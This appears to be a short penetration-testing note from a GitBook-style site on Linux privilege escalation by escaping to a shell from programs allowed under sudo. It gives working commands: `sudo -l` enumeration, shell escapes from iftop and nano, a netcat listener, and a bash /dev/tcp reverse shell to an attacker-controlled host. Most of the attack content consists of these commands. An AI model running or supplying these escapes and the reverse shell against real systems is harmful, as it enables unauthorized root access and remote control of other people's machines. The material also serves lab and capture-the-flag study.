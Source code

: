 # shell escaping

start to know which process run with sudo privilege `sudo -l`

![image.png](<../../../.gitbook/assets/image (1) (1) (1).png>)

we will exploit all service

***

### Iftop

<figure><img src="../../../.gitbook/assets/image 1 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
sudo /usr/sbin/iftop
!/bin/sh
```

<figure><img src="../../../.gitbook/assets/image 2 (1) (1).png" alt=""><figcaption></figcaption></figure>

***

### awk

<figure><img src="../../../.gitbook/assets/image 3 (1).png" alt=""><figcaption></figcaption></figure>

***

> may command line not suitable when as a root by nano service so let’s try to take a reverse shell

### nano

<figure><img src="../../../.gitbook/assets/image 4 (1).png" alt=""><figcaption></figcaption></figure>

```bash
sudo nano
ctrl+R
ctrl+x
reset; sh 1>&0 2>&0
```

which open a root shell but it’s blind which u can see the result only so let’s take a reverse shell on our machine

```bash
# attacker machine
nc -nlvp 5253
```

```bash
# victim
bash -i >& /dev/tcp/AttackerIP/5253 0>&1
```

<figure><img src="../../../.gitbook/assets/image 5 (1).png" alt=""><figcaption></figcaption></figure>
